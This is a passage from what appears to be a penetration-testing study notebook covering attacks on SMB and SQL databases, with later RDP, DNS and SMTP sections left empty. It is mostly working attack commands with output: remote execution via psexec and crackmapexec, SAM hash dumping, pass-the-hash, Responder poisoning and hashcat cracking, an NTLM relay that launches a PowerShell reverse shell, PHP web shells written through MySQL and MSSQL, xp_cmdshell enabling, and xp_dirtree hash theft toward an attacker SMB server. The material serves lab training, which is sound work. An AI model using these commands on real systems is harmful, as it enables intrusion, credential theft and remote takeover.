<summary><h3>Remote Code Execution (RCE)</h3></summary>

To use impacket-psexec, we need to provide the domain/username, the password, and the IP address of our target machine.

**Option 1 > Connect to a remote machine using `impacket-psexec`**

```bash
impacket-psexec <USER>:'<PASSWORD>'@<TARGET_IP>
```
```bash
# Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

# [*] Requesting shares on <TARGET_IP>.....
# [*] Found writable share ADMIN$
# [*] Uploading file EHtJXgng.exe
# [*] Opening SVCManager on <TARGET_IP>.....
# [*] Creating service nbAc on <TARGET_IP>.....
# [*] Starting service nbAc.....
# [!] Press help for extra shell commands
# Microsoft Windows [Version 10.0.19041.1415]
# (c) Microsoft Corporation. All rights reserved.


C:\Windows\system32>
```

> **NOTE:** The same options apply to `impacket-smbexec` and `impacket-atexec`.

---

**Option 2 > Run CMD or PowerShell commands using `crackmapexec`**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -p '<PASSWORD>' -x 'whoami' --exec-method smbexec
```
```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:.) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] .\<USER>:<PASSWORD> (Pwn3d!)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Executed command via smbexec
# SMB         <TARGET_IP> 445    WIN7BOX  nt authority\system
```

> **Note:** If the `--exec-method` is not defined, CrackMapExec will try to execute the `atexec` method, if it fails you can try to specify the `--exec-method` smbexec.

</details>

<details>
<summary><h3>Enumerating Logged-on Users</h3></summary>

Imagine we are in a network with multiple machines. Some of them share the same local administrator account. In this case, we could use CrackMapExec to enumerate logged-on users on all machines within the same network 10.10.110.0/24, which speeds up our enumeration process.

**Example Command**

```bash
crackmapexec smb 10.10.110.0/24 -u <USER> -p '<PASSWORD>' --local-auth --logged-on-users
```
```bash
# SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
# SMB         10.10.110.17 445    WIN7BOX  [+] Enumerated loggedon users
# SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\Administrator             logon_server: WIN7BOX
# SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\jurena                    logon_server: WIN7BOX
# SMB         10.10.110.21 445    WIN10BOX  [*] Windows 10.0 Build 19041 (name:WIN10BOX) (domain:WIN10BOX) (signing:False) (SMBv1:False)
# SMB         10.10.110.21 445    WIN10BOX  [+] WIN10BOX\Administrator:Password123! (Pwn3d!)
# SMB         10.10.110.21 445    WIN10BOX  [+] Enumerated loggedon users
# SMB         10.10.110.21 445    WIN10BOX  WIN10BOX\demouser                logon_server: WIN10BOX
```

</details>

<details>
<summary><h3>Extract Hashes from SAM Database</h3></summary>

The Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. If we get administrative privileges on a machine, we can extract the SAM database hashes for different purposes:

* Authenticate as another user
* Password Cracking, if we manage to crack the password, we can try to reuse the password for other services or accounts
* Pass The Hash

**Example Command**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -p '<PASSWORD>' --sam
```
```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Dumping SAM hashes
# SMB         <TARGET_IP> 445    WIN7BOX  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
# SMB         <TARGET_IP> 445    WIN7BOX  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# SMB         <TARGET_IP> 445    WIN7BOX  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# SMB         <TARGET_IP> 445    WIN7BOX  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5717e1619e16b9179ef2e7138c749d65:::
# SMB         <TARGET_IP> 445    WIN7BOX  jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
# SMB         <TARGET_IP> 445    WIN7BOX  demouser:1002:aad3b435b51404eeaad3b435b51404ee:4c090b2a4a9a78b43510ceec3a60f90b:::
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Added 6 SAM hashes to the database
```

</details>

<details>
<summary><h3>Pass-the-Hash (PtH)</h3></summary>

If we manage to get an **NTLM hash** of a user, and if we cannot crack it, we can still use the hash to authenticate over SMB with a technique called **Pass-the-Hash (PtH)**. PtH allows an attacker to authenticate to a remote server or service using the underlying NTLM hash of a user's password instead of the plaintext password. We can use a PtH attack with any `Impacket tool`, `SMBMap`, `CrackMapExec`, among other tools.

**Example Command**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -H <NTLM_HASH>
```
```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\<USER>:<NTLM_HASH> (Pwn3d!)
```

</details>

<details>
<summary><h3>Forced Authentication Attacks</h3></summary>

SMB can be abused to capture users' **NetNTLM v1/v2 hashes**. By setting up a fake SMB server, we can trick clients into authenticating to it.

**Tool: Responder**
* Responder is a **LLMNR, NBT-NS, and MDNS poisoner**.
* Key capabilities include:
    * Setting up **fake services** (e.g., SMB) to capture credentials.
    * Listening for **LLMNR and NBT-NS traffic**.
    * Responding on behalf of servers that victims try to reach.
    * Capturing **NetNTLM v1/v2 hashes** automatically.

**Workflow**
1. Start Responder in a network segment.
2. Wait for LLMNR/NBT-NS requests from clients.
3. Responder responds with the fake SMB service.
4. Victim attempts authentication to the fake SMB server.
5. NetNTLM hashes are captured for offline cracking or relay attacks.


```mermaid
flowchart TD
    A[Victim Machine] -->|Sends LLMNR or NBT-NS request| B[Responder - Fake SMB Server]
    B -->|Responds as target SMB server| A
    A -->|Authenticates using NetNTLM hash| B
    B --> C[Attacker Captures NetNTLM hash]
    C --> D[Offline Cracking or Relay Attacks]
```

**Why This Matters**
* Allows attackers to harvest authentication credentials without user interaction.
* Can be combined with **hash cracking** or **SMB relay attacks**.

When a user or a system tries to perform a Name Resolution (NR), a series of procedures are conducted by a machine to retrieve a host's IP address by its hostname. On Windows machines, the procedure will roughly be as follows:

```mermaid
flowchart TD
    A["User/System needs hostname's IP address"] --> B["Check Local Hosts File\n(C:\\Windows\\System32\\Drivers\\etc\\hosts)"]
    B -->|Record Found| Z["Use IP Address"]
    B -->|No Record| C["Check Local DNS Cache"]
    C -->|Record Found| Z
    C -->|No Record| D["Query Configured DNS Server"]
    D -->|Record Found| Z
    D -->|Negative Response| F["Host Not Found"]
    D -->|Server Unreachable| E["Send Multicast Query\n(LLMNR/NBT-NS)"]
    E -->|Response Received| Z
    E -->|No Response| F
```

**Step 1: Create a fake SMB server using the Responder default configuration:**

```bash
sudo responder -I ens3
```
```bash
#   .----.-----.-----.-----.-----.-----.--|  |.-----.----.
#   |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
#   |__| |_____|_____|   __|_____|__|__|_____||_____|__|
#                    |__|

#            NBT-NS, LLMNR & MDNS Responder 3.1.3.0

#   To support this project:
#   Patreon -> https://www.patreon.com/PythonResponder
#   Paypal  -> https://paypal.me/PythonResponder

#   Author: Laurent Gaffie (laurent.gaffie@gmail.com)
#   To kill this script hit CTRL-C

# ...


# [+] Listening for events...

# ...
```
```bash
# [*] [NBT-NS] Poisoned answer sent to <TARGET_IP> for name WORKGROUP (service: Domain Master Browser)
# [*] [NBT-NS] Poisoned answer sent to <TARGET_IP> for name WORKGROUP (service: Browser Election)
# [*] [MDNS] Poisoned answer sent to <TARGET_IP>   for name mysharefoder.local
# [*] [LLMNR]  Poisoned answer sent to <TARGET_IP> for name mysharefoder
# [*] [MDNS] Poisoned answer sent to <TARGET_IP>   for name mysharefoder.local
# [SMB] NTLMv2-SSP Client   : <TARGET_IP>
# [SMB] NTLMv2-SSP Username : WIN7BOX\demouser
# [SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:<NTLM_SERVER_CHALLENGE>:<NTLMV2_RESPONSE>:<NTLMV2_BLOB>
```

These captured credentials can be cracked using hashcat or relayed to a remote host to complete the authentication and impersonate the user.

All saved Hashes are located in Responder's logs directory (**`/usr/share/responder/logs/`**). We can copy the hash to a file and attempt to crack it using the hashcat module 5600.

> **NOTE:** If you notice multiples hashes for one account this is because NTLMv2 utilizes both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.

**Step 2: Use hashcat to crak the password:**

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
```bash
# hashcat (v6.1.1) starting...

# ...

# Dictionary cache hit:
# * Filename..: /usr/share/wordlists/rockyou.txt
# ...

# ADMINISTRATOR::WIN7BOX:<NTLM_SERVER_CHALLENGE>:<NTLMV2_RESPONSE>:<NTLMV2_BLOB>:P@ssword

# Session..........: hashcat
# Status...........: Cracked
# Hash.Name........: NetNTLMv2
# Hash.Target......: ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:3cc...000000
# ...
```

The captured NTLMv2 hash was successfully cracked, revealing the password: **`P@ssword`**.
If the hash cannot be cracked, it may still be leveraged through a relay attack. This can be achieved using tools such as `impacket-ntlmrelayx` or Responder’s `MultiRelay.py`.

**Step 3: Disable SMB in Responder:**

```bash
sudo sed -i 's/^SMB = .*/SMB = Off/' /etc/responder/Responder.conf
```

**Verify change:**

```bash
cat /etc/responder/Responder.conf | grep 'SMB ='
```
```bash
# SMB = Off
```

**Step 4: Generate a PowerShell Reverse Shell**

Use [revshells.com](https://www.revshells.com/) to create a **PowerShell #3 (Base64)** reverse shell payload.
Set the local IP, port, and generate the encoded command.

**Step 5: Start a Netcat Listener**

```bash
nc -lvnp <PORT>
```
```bash
# listening on [any] 9001 ...
```

**Step 6: Execute the NTLM Relay Attack**

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET_IP> -c 'powershell -e <BASE64_STRING>'
```
```bash
# listening on [any] 9001 ...
# connect to [10.10.110.133] from (UNKNOWN) [<TARGET_IP>] 52471

PS C:\Windows\system32> whoami;hostname

# nt authority\system
# WIN11BOX
```



</details>

</details>

</details>

---

<details>
<summary><h1>🛢️ SQL Databases</h1></summary>

[MySQL](https://www.mysql.com/) and [Microsoft SQL Server (MSSQL)](https://www.microsoft.com/en-us/sql-server/sql-server-2019) are [relational database](https://en.wikipedia.org/wiki/Relational_database) management systems (RDBMS). They store data in tables, organized into columns and rows.

Most relational database systems, including MSSQL and MySQL, rely on [Structured Query Language (SQL)](https://en.wikipedia.org/wiki/SQL) for:
* Querying data
* Maintaining and managing the database

**Why Databases Are High-Value Targets**

Databases are prime targets for attackers because they often contain sensitive and business-critical information, such as:
* User credentials
* Personally Identifiable Information (PII)
* Business-related records
* Payment information

**Security Risks**

Database services are frequently configured with highly privileged users. If an attacker gains access to a database, they may be able to:
* Exploit elevated privileges
* Move laterally within the system
* Escalate privileges to gain wider control

<details>
<summary><h2>Nmap Scan</h2></summary>

**Default SQL Ports**

* MSSQL
    * TCP/1433 (default)
    * UDP/1434 (browser service)
    * TCP/2433 (when running in hidden mode)
* MySQL
    *TCP/3306 (default)

**Example Command**

```bash
sudo nmap <TARGET_IP> -Pn -sV -sC -p1433
```
```bash
# PORT     STATE SERVICE  VERSION
# 1433/tcp open  ms-sql-s Microsoft SQL Server 2017 14.00.1000.00; RTM
# | ms-sql-ntlm-info: 
# |   Target_Name: HTB
# |   NetBIOS_Domain_Name: HTB
# |   NetBIOS_Computer_Name: mssql-test
# |   DNS_Domain_Name: HTB.LOCAL
# |   DNS_Computer_Name: mssql-test.HTB.LOCAL
# |   DNS_Tree_Name: HTB.LOCAL
# |_  Product_Version: 10.0.17763
# | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
# | Not valid before: 2021-08-26T01:04:36
# |_Not valid after:  2051-08-26T01:04:36
# |_ssl-date: 2021-08-26T01:11:58+00:00; +2m05s from scanner time.

# Host script results:
# |_clock-skew: mean: 2m04s, deviation: 0s, median: 2m04s
# | ms-sql-info: 
# |   <TARGET_IP>:1433: 
# |     Version: 
# |       name: Microsoft SQL Server 2017 RTM
# |       number: 14.00.1000.00
# |       Product: Microsoft SQL Server 2017
# |       Service pack level: RTM
# |       Post-SP patches applied: false
# |_    TCP port: 1433
```

| Flag            | Purpose                                         |
|-----------------|-------------------------------------------------|
| `-Pn`           | Treat host as online (skip ICMP ping discovery) |
| `-sV`           | Detect service version                          |
| `-sC`           | Run default Nmap scripts                        |
| `-p1433`        | Scan only port 1433 (SQL Server default)        |
| `<TARGET_IP>`   | Target IP address                               |

**Why This Matters**

* **Attackers look for open SQL ports** (1433/3306) as easy entry points.
* **Weak or misconfigured authentication** can lead to:
    * Full database access without credentials.
    * Leakage of sensitive data (users, passwords, financial records).
    * Remote code execution via SQL functions or stored procedures.
* **Exposed metadata** (seen in Nmap output) reveals:
    * SQL Server version (helps attackers find exploits).
    * Domain, computer, and DNS names (useful for lateral movement).
* **Default or no-password accounts** are commonly exploited in automated attacks.

</details>

<details>
<summary><h2>Authentication Mechanisms</h2></summary>

**MSSQL**

MSSQL supports two authentication modes:

| Authentication Type             | Description                                                                                                                                                                                  |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Windows Authentication Mode** | Default mode (also called *integrated security*). SQL Server trusts Windows/Active Directory accounts. Users already authenticated by Windows do not need to provide additional credentials. |
| **Mixed Mode**                  | Supports both Windows/AD authentication and SQL Server–specific logins (username + password stored in SQL Server).                                                                           |


**MySQL**

* Supports authentication using:
    * Username + Password
    * Windows Authentication (requires plugin)

* Administrators may choose an authentication mode based on compatibility, security, usability, etc.
* Misconfigurations in authentication settings can expose services to unauthorized access.

<details>
<summary><h3>Misconfigurations</h3></summary>

A misconfiguration can allow access without credentials under these conditions:
* Anonymous access enabled
* User without a password
* Unrestricted access

</details>

<details>
<summary><h3>Privileges</h3></summary>

Depending on the user's privileges, we may be able to perform different actions within a SQL Server, such as:

* Read or change the contents of a database
* Read or change the server configuration
* Execute commands
* Read local files
* Communicate with other databases
* Capture the local system hash
* Impersonate existing users
* Gain access to other networks

</details>

</details>

<details>
<summary><h2>Protocol Specific Attacks</h2></summary>

Once access to a SQL database has been obtained, the next step is to enumerate its contents. Start by identifying the databases that exist on the server, then inspect the tables within each database, and finally review the data stored in those tables.

In practice, large environments may contain hundreds of tables, so it’s not always practical—or necessary—to dump everything.
Instead, focus on the tables that are most likely to contain actionable information, such as:

* Usernames and passwords
* API keys or authentication tokens
* Configuration data
* Application-specific secrets

This targeted approach will not only save time, but also help you find data that can be leveraged for further compromise or privilege escalation.

<details>
<summary><h3>MySQL</h3></summary>

**Default System Databases**

| Database           | Description                                                                                       |
|--------------------|---------------------------------------------------------------------------------------------------|
| `mysql`            | Core system database; contains tables required by the MySQL server                                |
| `information_schema` | Stores metadata such as databases, tables, and columns                                           |
| `performance_schema` | Used for monitoring MySQL server execution at a low level                                        |
| `sys`              | Helper objects to make Performance Schema data easier to understand                               |

<details>
<summary><h4>Step 1: Connecting to the SQL Server</h4></summary>

```bash
mysql -u <USER> -p<PASSWORD> -h <TARGET_IP>
```

</details>

<details>
<summary><h4>Step 2: Explore the Databases</h4></summary>

**Show Databases**

```sql
SHOW DATABASES;
```
```bash
# +--------------------+
# | Database           |
# +--------------------+
# | information_schema |
# | users              |
# +--------------------+
# 2 rows in set (0.00 sec)
```

**Use a Database**

```sql
USE users;
```
```bash
# Database changed
```

**Show Tables**

```sql
SHOW TABLES;
```
```bash
# +----------------------------+
# | users                      |
# +----------------------------+
# | actions                    |
# | permissions                |
# | permissions_roles          |
# | permissions_users          |
# | roles                      |
# | roles_users                |
# | settings                   |
# | users                      |
# +----------------------------+
# 8 rows in set (0.00 sec)
```

**View Table Contents**

```sql
SELECT * FROM users;
```
```bash
# +----+---------------+------------+---------------------+
# | id | username      | password   | date_of_joining     |
# +----+---------------+------------+---------------------+
# |  1 | admin         | p@ssw0rd   | 2025-07-02 00:00:00 |
# |  2 | administrator | adm1n_p@ss | 2025-07-02 11:30:50 |
# |  3 | john          | john123!   | 2025-07-02 11:47:16 |
# |  4 | tom           | tom123!    | 2025-07-02 12:23:16 |
# +----+---------------+------------+---------------------+
# 4 rows in set (0.00 sec)
```

</details>

<details>
<summary><h4>Step 3: Execute Commands</h4></summary>

Command execution is one of the most valuable capabilities when attacking common services, as it enables direct control over the operating system. With sufficient privileges, an attacker can leverage the SQL database to run system commands or create the necessary mechanisms to do so.

Unlike SQL Server’s `xp_cmdshell`, **MySQL** does not provide a built-in stored procedure for executing system commands. However, command execution is still possible if we can write files to a location on the file system that is executed by another service.

For example, if **MySQL** is running alongside a PHP-based web server (or another language such as ASP.NET), and we have the necessary privileges, we can create a web shell using **SELECT INTO OUTFILE**. By writing a script directly into the web server’s directory, we are then able to browse to the file and execute arbitrary commands through the web interface.

**Write Local File**

```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/shell.php';
```

---

In MySQL, the global system variable `secure_file_priv` restricts data import and export operations, including those performed by **LOAD DATA**, **SELECT … INTO OUTFILE**, and the **LOAD_FILE()** function. These operations are only available to users with the **FILE** privilege.

`secure_file_priv` can be configured as follows:
* **Empty value** → No restrictions are applied. This is considered insecure.
* **Directory path** → Restricts import and export operations to that specific directory. The directory must already exist, as MySQL will not create it.
* **NULL** → Completely disables import and export operations.

**Verify `secure_file_priv`**

```sql
show variables like "secure_file_priv";
```
```bash
# +------------------+-------+
# | Variable_name    | Value |
# +------------------+-------+
# | secure_file_priv |       |
# +------------------+-------+

# 1 row in set (0.005 sec)
```

In the previous example, we can see the `secure_file_priv` variable is empty, which means we can read and write data using MySQL.

---

By default a MySQL installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges.

**Read Local Files**

```sql
select LOAD_FILE("/etc/passwd");
```
```bash
# +--------------------------+
# | LOAD_FILE("/etc/passwd")
# +--------------------------------------------------+
# root:x:0:0:root:/root:/bin/bash
# daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
# bin:x:2:2:bin:/bin:/usr/sbin/nologin
# sys:x:3:3:sys:/dev:/usr/sbin/nologin
# sync:x:4:65534:sync:/bin:/bin/sync
```

</details>

</details>

<details>
<summary><h3>MSSQL</h3></summary>

**Default System Databases**

| Database | Description                                                                                          |
|---------|------------------------------------------------------------------------------------------------------|
| `master` | Stores configuration and instance-level information                                                 |
| `msdb`  | Used by SQL Server Agent (job scheduling, alerts, etc.)                                              |
| `model` | Template database that is copied when a new database is created                                     |
| `resource` | Read-only database that stores system objects visible in all databases (under the `sys` schema) |
| `tempdb` | Stores all temporary tables, variables and other transient objects used in SQL queries              |

<details>
<summary><h4>Step 1: Connecting to the SQL Server</h4></summary>

**OPTION 1: `sqsh`**

```bash
sqsh -S <TARGET_IP> -U <USER> -P '<PASSWORD>' -h
```

When connecting to a SQL Server using **Windows authentication**, the client must include either the **domain name** or the **hostname** in the username.
If no hostname or domain is provided, the client defaults to **SQL authentication** and attempts to log in using a SQL Server–defined user.

* **Windows authentication** (domain or local account):
    * Domain account → `DOMAIN\username`
    * Local account → `HOSTNAME\username` or `.\username`
* **SQL authentication**:
    * Username only → `username`

```bash
sqsh -S <TARGET_IP> -U .\\<USER> -P '<PASSWORD>' -h
```

**OPTION 2: `mssqlclient.py`**

```bash
mssqlclient.py -p <PORT> <USER>@<TARGET_IP>
```

</details>

<details>
<summary><h4>Step 2: Explore the Databases</h4></summary>

**Show Databases**

```sql
SELECT name FROM master.dbo.sysdatabases;
GO
```
```bash
# master
# tempdb
# model
# msdb
# users
```

**Use a Database**

```sql
USE users;
GO
```
```bash
# Changed database context to 'users'.
```

**Show Tables**

```sql
SELECT table_name FROM users.INFORMATION_SCHEMA.TABLES;
GO
```
```bash
# actions
# permissions
# permissions_roles
# permissions_users
# roles
# roles_users
# settings
# users
```

**View Table Contents**

```sql
SELECT * FROM users;
GO
```
```bash
# id   username       password       date_of_joining
# ----------------------------------------------------------
# 1    admin          p@ssw0rd       2025-07-02 00:00:00
# 2    administrator  adm1n_p@ss     2025-07-02 11:30:50
# 3    john           john123!       2025-07-02 11:47:16
# 4    tom            tom123!        2025-07-02 12:23:16
```

</details>

<details>
<summary><h4>Step 3: Execute Commands</h4></summary>

Command execution is one of the most valuable capabilities when attacking common services, as it enables direct control over the operating system. With sufficient privileges, an attacker can leverage the SQL database to run system commands or create the necessary mechanisms to do so.

**Execute commands using SQL syntax on MSSQL**

```sql
xp_cmdshell 'whoami'
GO
```
```bash
# output
# -----------------------------
# no service\mssql$sqlexpress
# NULL
# (2 rows affected)
```

If `xp_cmdshell` is not enabled, we can enable it.

**Allow advanced options to be changed:**

```sql
EXECUTE sp_configure 'show advanced options', 1
GO
```

**Update the currently configured value for advanced options:**

```sql
RECONFIGURE
GO
```

**Enable the feature:**

```sql
EXECUTE sp_configure 'xp_cmdshell', 1
GO  
```

**Update the currently configured value for this feature:**

```sql
RECONFIGURE
GO
```

---

To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges, and then execute some stored procedures to create the file:

**Enable Ole Automation Procedures:**

```sql
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO
```

**Write Local Files:**

```sql
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO
```

---

**Read Local Files:**

By default, MSSQL allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:

```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
GO
```
```bash
# BulkColumn

# -----------------------------------------------------------------------------
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to hostnames. Each
# entry should be kept on an individual line. The IP address should

# (1 rows affected)
```

</details>

<details>
<summary><h4>Step 4: Capture Service Hash</h4></summary>

We can capture the MSSQL service account hash by abusing the undocumented stored procedures `xp_subdirs` or `vxp_dirtree`. These procedures rely on the SMB protocol to enumerate child directories under a specified parent directory. By directing the procedure to query a path hosted on our controlled SMB server, SQL Server is tricked into authenticating to it. This forces the service account to send its NTLMv2 hash, which can then be intercepted and cracked offline.

**XP_DIRTREE Hash Stealing**

```sql
EXEC master..xp_dirtree '\\10.10.110.17\share\'
GO
```
```bash
# subdirectory    depth
# --------------- -----------
```

**XP_SUBDIRS Hash Stealing**

```sql
EXEC master..xp_subdirs '\\10.10.110.17\share\'
GO
```
```bash
# HResult 0x55F6, Level 16, State 1
# xp_subdirs could not access '\\10.10.110.17\share\*.*': FindFirstFile() returned error 5, 'Access is denied.'
```

If the service account has access to our server, we will obtain its hash. We can then attempt to crack the hash or relay it to another host.

**XP_SUBDIRS Hash Stealing with Responder**

```bash
sudo responder -I tun0
```
```bash
#                                          __               
#   .----.-----.-----.-----.-----.-----.--|  |.-----.----.
#   |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
#   |__| |_____|_____|   __|_____|__|__|_____||_____|__|
#                    |__|              
# <SNIP>

# [+] Listening for events...

# [SMB] NTLMv2-SSP Client   : 10.10.110.17
# [SMB] NTLMv2-SSP Username : SRVMSSQL\demouser
# [SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:5e3ab1c4380b94a1:<NTLM_HASH>:<BLOB>
```

**XP_SUBDIRS Hash Stealing with Responder**

```bash
sudo impacket-smbserver share ./ -smb2support
```
```bash
# Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
# [*] Config file parsed
# [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
# [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0 
# [*] Config file parsed                                                 
# [*] Config file parsed                                                 
# [*] Config file parsed
# [*] Incoming connection (10.129.203.7,49728)
# [*] AUTHENTICATE_MESSAGE (WINSRV02\mssqlsvc,WINSRV02)
# [*] User WINSRV02\mssqlsvc authenticated successfully                        
# [*] demouser::WIN7BOX:5e3ab1c4380b94a1:<NTLM_HASH>:<BLOB>
# [*] Closing down connection (10.129.203.7,49728)                      
# [*] Remaining connections []
```

</details>

<details>
<summary><h4>Step 5: Impersonate Existing Users</h4></summary>

</details>

</details>

</details>

</details>

---

<details>
<summary><h1>🖧 RDP</h1></summary>



</details>

---

<details>
<summary><h1>🌐 DNS</h1></summary>



</details>

---

<details>
<summary><h1>📨 SMTP</h1></summary>



</details>

---

<details>
<summary><h1>🛠️ Skills Assessment</h1></summary>

<details>
<summary><h2>Attacking Common Services (EASY)</h2></summary>

</details>

<details>
<summary><h2>Attacking Common Services (MEDIUM)</h2></summary>

</details>

<details>
<summary><h2>Attacking Common Services (HARD)</h2></summary>

</details>

</details>

---

📘 **Next step:** Continue with [PIVOTING-TUNNELING](./09-pivoting-tunneling.md)